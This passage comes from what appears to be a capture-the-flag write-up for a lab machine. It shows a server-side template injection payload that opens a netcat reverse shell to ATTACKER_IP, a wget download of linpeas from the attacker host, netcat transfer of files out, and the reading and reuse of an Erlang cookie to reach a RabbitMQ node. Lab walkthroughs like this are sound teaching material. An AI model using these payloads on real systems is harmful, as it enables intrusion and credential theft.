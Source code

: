 Now let's send a reverse shell:
```json
{
"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f').read()}}"
}
```

This will give us a shell as the user azreal.

Let's improve our shell with (i made a guide [here](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/main/Tips-%26-Resources/Reverse_Shell-Upgrade.md) on this topic)

We can finally get the user flag:
```bash
cat ~/user.txt
```

--> REDACTED

<br/>

### Privilege Escalation
Now is time to enumerate the machine for potential route for privilege escalation.
From my machine i transfered the `linpeas.sh` script on the target using a python HTTP server:
```bash
python3 -m http.server
```

On target:
```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```

Now let's make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh > linpeas_report
```

For better readability i then transferred the report on my machine:
```bash
nc -lvnp 4444 > linpeas_report
```

On target:
```bash
nc -nv  4444 < linpeas_report
```

It seems we can access some erlang cookies:
```bash
cat /var/lib/rabbitmq/.erlang
cookie: KylOMwKdsXpLQubC
```

We can try to use it to connect to the node from our machine:
```bash
sudo rabbitmqctl --node rabbit@forge --erlang-cookie 'KylOMwKdsXpLQubC' status
```
